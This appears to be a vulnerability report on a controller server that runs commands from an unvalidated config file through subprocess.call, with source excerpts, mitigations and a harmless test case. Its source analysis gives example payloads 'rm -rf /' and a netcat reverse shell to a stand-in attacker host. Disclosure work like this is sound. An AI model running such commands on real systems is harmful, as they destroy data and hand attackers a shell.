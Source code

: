 ### Vulnerability List

- Vulnerability Name: Unvalidated Configuration File Leading to Arbitrary Command Execution
- Description:
    1. An attacker crafts a malicious `config.protoascii` file.
    2. This malicious configuration file is placed on the server machine.
    3. The Flight Lab controller server reads and parses this malicious configuration file during startup or reconfiguration.
    4. The malicious configuration file defines a `CommandLineComponent` with malicious commands in the `when_on` or `when_off` fields.
    5. When the controller server starts or when a system command triggers the malicious component (e.g., system start/stop), the arbitrary commands are executed on the server machine.
- Impact: Arbitrary command execution on the server machine. This can lead to complete system compromise, data exfiltration, installation of malware, or denial of service.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations: None. The code parses the configuration file using protobuf's `text_format.Merge`, which does not inherently validate the contents for security implications like command injection.
- Missing Mitigations:
    - Input validation and sanitization for the `config.protoascii` file, specifically for fields that are used to execute commands, such as the `when_on` and `when_off` lists in `CommandLineComponent`. A whitelist of allowed commands or parameters, or a secure way to define allowed operations, should be implemented.
    - Principle of least privilege: Ensure the controller server and client applications run with the minimum necessary privileges to reduce the impact of successful exploits.
    - Integrity checks for the configuration file to detect unauthorized modifications.
- Preconditions:
    - The attacker must be able to place a malicious `config.protoascii` file on the server machine. This could be achieved through various means, such as exploiting other vulnerabilities in the system (if any), social engineering, or physical access to the server.
- Source Code Analysis:
    1. **Configuration Loading (`/code/controller/main.py`)**: The `ControllerApp` class in `main.py` loads the system configuration from the `config.protoascii` file using `text_format.Merge`.
    ```python
    FLAGS = gflags.FLAGS
    gflags.DEFINE_string('config', 'config.protoascii',
                         'Path to system configuration file.')
    class ControllerApp(pattern.Logger, appcommands.Cmd):
        def __init__(self, *args, **kwargs):
            super(ControllerApp, self).__init__(*args, **kwargs)
            # ...
            self._system_config = controller_pb2.System()
            with open(FLAGS.config, 'r') as f:
              config_text = f.read()
              text_format.Merge(config_text, self._system_config)
    ```
    This code reads the configuration file specified by the `--config` flag and parses it into a `controller_pb2.System` protobuf object.

    2. **CommandLineComponent Execution (`/code/controller/components/app.py`)**: The `CommandLineComponent` in `app.py` directly executes commands defined in the configuration using `subprocess.call`.
    ```python
    class CommandLineComponent(base.Component):
      def _start(self):
        for cmd in self.settings.when_on:
          self.logger.info('[{0}] Running: {1}'.format(self.name, cmd))
          ret = subprocess.call(cmd)
          self.logger.info('[{0}] Done (return code={1})'.format(self.name, ret))

      def _stop(self):
        for cmd in self.settings.when_off:
          self.logger.info('[{0}] Running: {1}'.format(self.name, cmd))
          ret = subprocess.call(cmd)
          self.logger.info('[{0}] Done (return code={1})'.format(self.name, ret))
    ```
    The `_start` and `_stop` methods iterate through the `when_on` and `when_off` lists from the component's settings and execute each command using `subprocess.call`. There is no input validation or sanitization on these commands.

    **Visualization**:

    ```
    config.protoascii --> ControllerApp (parses config) --> ComponentFactory (creates components) --> CommandLineComponent

    CommandLineComponent.start() or .stop() --> for cmd in settings.when_on/off: --> subprocess.call(cmd) --> System Command Execution
    ```

    If a malicious user can modify `config.protoascii` to include commands like `rm -rf /` or `nc -e /bin/bash attacker_ip port` within a `CommandLineComponent`, and the server is started with this modified configuration, these commands will be executed when the component is initialized or triggered (e.g., on system start or stop).

- Security Test Case:
    1. **Prepare Malicious Configuration File**: Create a file named `malicious_config.protoascii` with the following content. This configuration defines a `CommandLineComponent` that will create a file `/tmp/flightlab_pwned.txt` when the component is started.
    ```
    machines: [
      {
        name: "master"
        ip: "127.0.0.1"
        components: [
          {
            name: "malicious_command"
            type: COMMANDLINE
            commandline: {
              when_on: ["touch /tmp/flightlab_pwned.txt"]
            }
          }
        ]
      }
    ]
    master_machine_name: "master"
    ```
    2. **Replace Configuration File**: Assume you have a way to replace the legitimate `config.protoascii` with `malicious_config.protoascii` on the server machine. For testing purposes, you might manually replace the file. In a real attack scenario, this might involve exploiting another vulnerability or social engineering.
    3. **Start Controller Server**: Run the controller server application, pointing it to the malicious configuration file:
    ```sh
    python main.py server --config malicious_config.protoascii
    ```
    4. **Trigger Component Start**: Send a system start command to the server, for example, by using `curl` to access the `/system/on` API endpoint (if the HTTP API is enabled and accessible) or by any other mechanism that triggers the `START` system command.
    ```sh
    curl http://<server_ip>:8080/system/on
    ```
    5. **Verify Command Execution**: Check if the file `/tmp/flightlab_pwned.txt` has been created on the server machine.
    ```sh
    ls /tmp/flightlab_pwned.txt
    ```
    If the file exists, it confirms that the arbitrary command defined in the malicious configuration file was executed by the `CommandLineComponent`, demonstrating the vulnerability.